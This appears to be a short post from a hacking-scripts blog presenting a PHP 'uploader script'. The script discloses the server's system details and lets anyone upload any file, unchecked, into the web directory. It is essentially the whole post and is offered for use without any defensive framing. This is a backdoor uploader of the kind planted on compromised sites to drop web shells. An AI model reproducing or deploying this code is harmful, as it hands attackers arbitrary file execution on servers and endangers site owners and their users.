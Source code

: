 ```yaml
---
id: 66
title: Uploader Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=66
permalink: /uploader-script/
categories:
  - PHP
  - Upload
tags:
  - PHP
  - uploader
---
```

This is a very basic uploader script, which simply enables the user to upload whatever they want to the server.


### Uploader Script Source Code

{% highlight php linenos %}<?php
echo '<b><br><br>'.php_uname().'<br></b>';
echo '<form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader">';
echo '<input type="file" name="file" size="50"><input name="_upl" type="submit" id="_upl" value="Upload"></form>';
if( $_POST['_upl'] == "Upload" ) {
    if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo '<b>Upload SUKSES !!!</b><br><br>'; }
    else { echo '<b>Upload GAGAL !!!</b><br><br>'; }
}
?>
{% endhighlight %}


### Uploader Script Screenshot

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/01/uploader.png" alt="uploader script screenshot" width="495" height="108" class="aligncenter size-full wp-image-333" />][1]

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/uploader.png